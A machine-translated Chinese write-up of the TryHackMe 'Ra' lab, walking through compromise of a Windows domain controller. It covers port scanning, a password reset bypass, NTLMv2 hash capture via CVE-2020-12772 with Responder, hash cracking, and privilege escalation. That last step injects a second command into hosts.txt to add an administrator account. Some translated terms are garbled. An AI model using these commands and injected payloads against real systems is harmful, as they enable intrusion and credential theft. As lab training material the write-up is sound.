# THM 报告:Ra

> 原文：<https://infosecwriteups.com/thm-writeup-ra-7e276f05700?source=collection_archive---------0----------------------->


[Ra 万神之神](https://i.ytimg.com/vi/_WKRXAKX0q0/maxresdefault.jpg)。

在本文中，我通过枚举在开放端口上运行的服务，滥用网站上的密码重置功能，并使用 CVE-2020–12772 提升我在域控制器上的权限来收集所有挑战标志，逐步完成了利用域控制器的过程。这个挑战在 TryHackMe 平台上有，标题为“ **Ra** ，由用户“[4 NDR 34 z](https://tryhackme.com/p/4ndr34z)”和“ [*降级*](https://tryhackme.com/p/demoteaching) ”创建。

# 放弃

我喜欢在一篇文章之前添加一个简短的免责声明，以鼓励人们在阅读本文之前尝试一下这个房间，因为这篇文章中显然会有**剧透****。我相信，如果你先自己尝试，然后在遇到困难或需要提示时再回来写这篇文章，你会更喜欢这个挑战。因此，没有任何进一步的拖延，让我们开始吧！**

# **挑战描述**

> **你已经进入了价值数十亿美元的公司 WindCorp 的内部网络，该公司正在进行一场大规模的社交媒体宣传活动，声称是不可攻击的(哈！这种说法到此为止！).**
> 
> **下一步将是拿走他们的皇冠上的宝石，并完全进入他们的内部网络。你发现了一台新的 windows 机器，它可能会引导你实现最终目标。你能征服这个末端 boss 并拥有他们的内部网络吗？**

# **端口枚举**

**我开始枚举目标机器，用 **NMAP** 执行快速扫描来识别任何打开的端口。**

```
nmap -T5 --open -sS -vvv --min-rate=300 --max-retries=3 -p- -oN all-ports-nmap-report -Pn 10.10.241.18PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 125
80/tcp    open  http             syn-ack ttl 125
88/tcp    open  kerberos-sec     syn-ack ttl 125
135/tcp   open  msrpc            syn-ack ttl 125
139/tcp   open  netbios-ssn      syn-ack ttl 125
389/tcp   open  ldap             syn-ack ttl 125
445/tcp   open  microsoft-ds     syn-ack ttl 125
464/tcp   open  kpasswd5         syn-ack ttl 125
593/tcp   open  http-rpc-epmap   syn-ack ttl 125
636/tcp   open  ldapssl          syn-ack ttl 125
2179/tcp  open  vmrdp            syn-ack ttl 125
3268/tcp  open  globalcatLDAP    syn-ack ttl 125
3269/tcp  open  globalcatLDAPssl syn-ack ttl 125
3389/tcp  open  ms-wbt-server    syn-ack ttl 125
5223/tcp  open  hpvirtgrp        syn-ack ttl 125
5229/tcp  open  jaxflow          syn-ack ttl 125
5262/tcp  open  unknown          syn-ack ttl 125
5263/tcp  open  unknown          syn-ack ttl 125
5269/tcp  open  xmpp-server      syn-ack ttl 125
5270/tcp  open  xmp              syn-ack ttl 125
5275/tcp  open  unknown          syn-ack ttl 125
5276/tcp  open  unknown          syn-ack ttl 125
5985/tcp  open  wsman            syn-ack ttl 125
7070/tcp  open  realserver       syn-ack ttl 125
7443/tcp  open  oracleas-https   syn-ack ttl 125
7777/tcp  open  cbt              syn-ack ttl 125
9090/tcp  open  zeus-admin       syn-ack ttl 125
9091/tcp  open  xmltec-xmlmail   syn-ack ttl 125
9389/tcp  open  adws             syn-ack ttl 125
49671/tcp open  unknown          syn-ack ttl 125
49672/tcp open  unknown          syn-ack ttl 125
49673/tcp open  unknown          syn-ack ttl 125
49674/tcp open  unknown          syn-ack ttl 125
49694/tcp open  unknown          syn-ack ttl 125
49894/tcp open  unknown          syn-ack ttl 125
```

**查看输出，我可以看到有 35 个端口打开。接下来，我使用 NMAP 来识别每个端口上运行的服务，并使用通用的 NSE 脚本来查找我可以利用的任何常见漏洞。**

```
nmap -sV -sC -Pn -v -oN nmap-report -p 53,80,88,135,139,389,445,464,593,636,2179,3268,3269,3389,5223,5229,5262,5263,5269,5270,5275,5276,5985,7070,7443,7777,9090,9091,9389,49671,49672,49673,49674,49694,49894 10.10.215.202
```

**我可以看到 NMAP 的大量输出和一些有趣的服务，我可以进一步列举。**

# **Web 枚举**

**查看 NMAP 服务扫描的输出，我可以看到在端口 80 上可以访问一个网站。**

```
80/tcp    open     http                Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Windcorp.
```

**我还注意到 NMAP 在扫描 3389 端口时发现了一些关于潜在域名的有用信息。**

```
3389/tcp  open     ms-wbt-server       Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WINDCORP
|   NetBIOS_Domain_Name: WINDCORP
|   NetBIOS_Computer_Name: FIRE
|   DNS_Domain_Name: **windcorp.thm** 
|   DNS_Computer_Name: **Fire.windcorp.thm**
|   DNS_Tree_Name: windcorp.thm
|   Product_Version: 10.0.17763
|_  System_Time: 2022-03-27T10:03:02+00:00
| ssl-cert: Subject: commonName=Fire.windcorp.thm
| Issuer: commonName=Fire.windcorp.thm
```

**我将 **windcorp.thm** 添加到我的 hosts 文件中，并导航到该网站。我在网站上发现了一个密码重置链接，它要求我在 hosts 文件中添加一个名为 **fire.windcorp.thm** 的子域。**

****

**通过密码重置链接识别的新子域名。**

**一旦子域被添加到我的主机文件，我可以看到密码重置要求我提交一个有效的用户名和回答一个安全问题。**

****

**密码重置弹出窗口。**

**我在网站上找到了一份 IT 支持人员的名单，但我没有尝试重置他们的密码。**

****

**网站上的 IT 支持人员列表。**

**尝试导航到任何支持人员链接都会引发错误。**

****

**未能打开 URI。**

**我注意到在支持人员列表下面有一个 Spark 的链接，根据他们的项目[网页](https://www.igniterealtime.org/projects/spark/):**

> **Spark 是一款开源的跨平台 IM 客户端，针对企业和组织进行了优化。它内置了对群聊、电话集成和强大安全性的支持。它还通过在线拼写检查、群组聊天室书签和选项卡式对话等功能提供了出色的最终用户体验。结合 Openfire 服务器，Spark 是使用不安全的公共 IM 网络的最简单和最好的替代方案。**

**我可以从 NMAP 的扫描输出中看到，可以通过端口 9090 访问 Openfire 管理控制台，但是我尝试登录时运气不佳。**

****

**Openfire 管理控制台。**

**我还尝试用 FFuF 模糊任何隐藏的目录，但没有发现任何感兴趣的东西。在花了更多的时间列举之后，我注意到在页面的底部有三个员工的名字，有趣的是，其中一个牵着一只狗。**

****

**Windcorp 的员工。**

**重设密码时的一个安全问题是**提供你最喜欢的宠物**的名字。如果我在一个新的标签页中打开图片，我可以看到图片的名字包括主人的用户名和她的宠物的名字。**

****

**用户名和宠物的名字。**

**我现在可以重置用户的密码了。**

****

**用户 Li 生活的密码重置。**

# **SMB 枚举**

**以前，我无法枚举任何 SMB 共享，但现在我可以使用 **lilyle 的**凭据来获得访问权限。**

```
smbclient -L //10.10.215.202 -U lilyle 
Enter WORKGROUP\lilyle's password:Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin  
C$              Disk      Default share 
IPC$            IPC       Remote IPC    
NETLOGON        Disk      Logon server share 
Shared          Disk                    
SYSVOL          Disk      Logon server share 
Users           Disk
```

**有趣的是，名为**的 SMB 共享共享**和**用户**。在共享目录中，我找到了第一个标志和几个用于不同平台的 spark 可执行文件。**

```
smbclient //10.10.6.185/Shared -U lilyle

smb: \> dir
  .                         D        0  Sat May 30 01:45:42 2020
  ..                        D        0  Sat May 30 01:45:42 2020
  Flag 1.txt                A       45  Fri May  1 16:32:36 2020
  spark_2_8_3.deb           A 29526628  Sat May 30 01:45:01 2020
  spark_2_8_3.dmg           A 99555201  Sun May  3 12:06:58 2020
  spark_2_8_3.exe           A 78765568  Sun May  3 12:05:56 2020
  spark_2_8_3.tar.gz        A 123216290  Sun May  3 12:07:24 2020
```

****

**旗帜 1。**

**在**用户**文件夹中，我可以看到域控制器上所有不同的用户设置。**

```
.                         DR        0  Sat May  2 23:05:58 2020
  ..                      DR        0  Sat May  2 23:05:58 2020
  Administrator            D        0  Sun May 10 12:18:11 2020
  All Users            DHSrn        0  Sat Sep 15 08:28:48 2018
  angrybird                D        0  Fri May  1 13:59:20 2020
  berg                     D        0  Fri May  1 13:59:20 2020
  bluefrog579              D        0  Fri May  1 13:59:20 2020
  brittanycr               D        0  Sun May  3 00:36:46 2020
  brownostrich284          D        0  Fri May  1 13:59:20 2020
  buse                     D        0  Sun Mar 27 18:20:18 2022
  Default                DHR        0  Fri May  1 00:35:11 2020
  Default User         DHSrn        0  Sat Sep 15 08:28:48 2018
  desktop.ini            AHS      174  Sat Sep 15 08:16:48 2018
  edward                   D        0  Fri May  1 13:59:20 2020
  freddy                   D        0  Sun May  3 00:30:16 2020
  garys                    D        0  Fri May  1 13:59:20 2020
  goldencat416             D        0  Sun Mar 27 19:21:06 2022
  goldenwol                D        0  Fri May  1 13:59:20 2020
  happ                     D        0  Fri May  1 13:59:20 2020
  happyme                  D        0  Fri May  1 13:59:20 2020
  Luis                     D        0  Fri May  1 13:59:20 2020
  orga                     D        0  Fri May  1 13:59:20 2020
  organicf                 D        0  Fri May  1 13:59:20 2020
  organicfish718           D        0  Sun Mar 27 19:21:59 2022
  pete                     D        0  Fri May  1 13:59:20 2020
  Public                  DR        0  Thu Apr 30 15:35:47 2020
  purplecat                D        0  Fri May  1 13:59:20 2020
  purplepanda              D        0  Fri May  1 13:59:20 2020
  sadswan                  D        0  Fri May  1 13:59:20 2020
  sadswan869               D        0  Sun Mar 27 19:23:23 2022
  sheela                   D        0  Fri May  1 13:59:20 2020
  silver                   D        0  Fri May  1 13:59:20 2020
  smallf                   D        0  Fri May  1 13:59:20 2020
  spiff                    D        0  Fri May  1 13:59:20 2020
  tinygoos                 D        0  Fri May  1 13:59:20 2020
  whiteleopard             D        0  Fri May  1 13:59:20 2020
```

# **星火开拓(CVE-2020–12772)**

**我看到安装了 Spark 版本 **2.8.3** 。在快速搜索与该版本相关的漏洞时，我发现了一个由挑战设计师创建的 [Github](https://github.com/theart42/cves/blob/master/cve-2020-12772/CVE-2020-12772.md) 页面，其中概述了一个与 Spark 版本 2.8.3 相关的漏洞。根据 Github 页面上提供的漏洞描述:**

> **当我们打开与另一个用户的聊天时，我们可以向该用户发送一个` 
> **``**
> 
> **每次用户点击链接，或者 ROAR 模块自动预加载链接，外部服务器就会收到对图像的请求，以及来自访问链接的用户(即与你聊天的用户)的 NTLM 散列！**
> 
> **通过运行 responder，我们可以捕获散列，并使用它们来访问用户帐户和提升我们的权限(当然这取决于用户)。**

**为了利用这个漏洞，我从下载、安装和运行 [Spark 2.8.3 app](https://github.com/igniterealtime/Spark/releases) 开始。**

```
sudo dpkg -i spark_2_8_3.deb
```

**在启动 Spark 之后，我提供了凭证和域细节。**

****

**Spark 登录。**

**我还需要进入高级设置并选中两个框，以避免出现证书错误。**

****

**火花高级设置。**

**在之前列举网站时，我注意到用户 **Buse Candan** 的图标总是绿色的，而其他用户的图标在灰色和琥珀色之间波动。我认为这表明用户是活跃的，可以用来执行利用。**

****

**活跃用户。**

**我在 Spark app 上的通讯录里搜索 **Buse** ，打开了聊天窗口。**

****

**与 buse 的火花聊天。**

**接下来，我启动 responder 来捕获用户 Buse 的 **NTMLv2** 哈希，并使用它来访问用户的帐户，从而提升我们的权限。**

> ****Responder** 是一款用于 LLMNR、NBT-NS 和 MDNS 中毒的开源工具，内置 HTTP/SMB/MSSQL/FTP/LDAP 流氓认证服务器，支持 NTLMv1/NTLMv2/LMv2、扩展安全 NTLMSSP 和基本 HTTP 认证。**

```
python3 /usr/share/responder/Responder.py -I tun0 -rdwv
```

**接下来，我将图像标签发送到用户总线，如下所示。**

****

**图像标签。**

**Responder 捕获从用户总线到我们外部主机的 GET 请求，其中包括用户的 NTLMv2 哈希！**

****

**响应程序两次捕获用户总线的 NTLMv2 哈希。**

**最后，我可以使用 **hashcat** 来破解 NTLMv2 哈希并检索用户 Buse 的密码。**

```
hashcat64.exe -m 5600 hash.txt rockyou.txt
```

****

**破解的 NTLMv2 哈希。**

**使用这些凭证，我现在可以尝试使用 **evil-winrm** 登录并获得第二个标志。**

```
evil-winrm -i windcorp.thm -u buse -p <...........> -N
```

****

**旗帜 2。**

# **Windows 权限提升**

**我首先执行一些基本的手动用户枚举，并注意到用户 Buse 是 [Account Operators](https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges#account-operators) 组的成员，这允许我们添加用户。**

```
whoami /groupsGroup Name                                  Type                 
=========================================   ================    
Everyone                                    Well-known group                                      
BUILTIN\Users                               Alias                                      
BUILTIN\Pre-Windows 2000 Compatible Access  Alias                                      
**BUILTIN\Account Operators                   Alias**                                      
BUILTIN\Remote Desktop Users                Alias                                      
BUILTIN\Remote Management Users             Alias 
```

**继续我的列举，我还在 c 盘中发现了一个名为 **scripts** 的可疑文件夹。**

```
*Evil-WinRM* PS C:\> dirDirectory: C:\Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         5/2/2020   6:33 AM                inetpub
d-----        9/15/2018  12:19 AM                PerfLogs
d-r---         5/8/2020   7:43 AM                Program Files
d-----         5/7/2020   2:51 AM                Program Files (x86)
**d-----         5/3/2020   5:48 AM                scripts**
d-----        5/29/2020   5:45 PM                Shared
d-r---         5/2/2020   3:05 PM                Users
d-----        5/30/2020   7:00 AM                Windows
```

**scripts 文件夹包含一个名为 **checkservers.ps1** 的 PowerShell 脚本，用于检查位于“ *C:\Users\brittanycr\* 中的名为 **hosts.txt** 的文件，并将主机文件的内容传递给[**Invoke-Expression**](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.2)。**

****

**PowerShell 脚本片段。**

**如果我们可以修改 hosts.txt 文件并包含一个添加新用户的命令，它将作为管理员执行。为此，我可以更改用户 **brittanycr** 的凭证，因为 buse 是 Account Operators 组的成员。**

```
*Evil-WinRM* PS C:\scripts> **net user brittanycr SecretPass1234 /domain**The command completed successfully.
```

**我无法使用 evil-winrm 与 **brittanycr** 用户建立远程连接。之前，我已经注意到可以通过 SMB 访问**用户**文件夹。我创建了一个新的 hosts.txt 文件，并包含一个命令，当执行该命令时，将添加一个名为**hack activities**的新用户。**

```
; net user hacktivities Pass1234$ /add; net localgroup Administrators hacktivities /add
```

**接下来，我使用 smbclient 通过 brittanycr 的凭证连接到用户共享，并从我的攻击机器上传新的 hosts.txt 文件。**

```
smbclient //10.10.252.35/Users -U brittanycr smb: \> cd brittanycr\
smb: \brittanycr\> dir
  .                           D        0  Sun May  3 00:36:46 2020
  ..                          D        0  Sun May  3 00:36:46 2020
  hosts.txt                   A       22  Sun May  3 14:44:57 2020smb: \brittanycr\> **put hosts.txt**
putting file hosts.txt as \brittanycr\hosts.txt (0.1 kb/s) (average 0.1 kb/s)
```

**为了检查用户黑客活动是否已经被添加，我可以使用 **crackmapexec** 来验证它的存在。**

```
crackmapexec smb windcorp.thm -u hacktivities -p Pass1234$
```

****

**帐户已成功添加。**

**我可以看到帐户已成功添加。我现在可以使用 evil-winrm 登录并检索最终的标志。**

****

**旗帜 3。**

# **最后的想法**

**我真的很喜欢在这个房间里工作，并有机会学习更多关于利用 Active Directory 域控制器的知识。挑战有一个很好的进展，需要良好的计数技能来完成。谢谢你一直读到最后，继续黑下去😄！**

**[](https://tryhackme.com/) [## 网络安全培训

### TryHackMe 是一个免费的学习网络安全的在线平台，使用动手练习和实验室，通过您的…

tryhackme.com](https://tryhackme.com/)**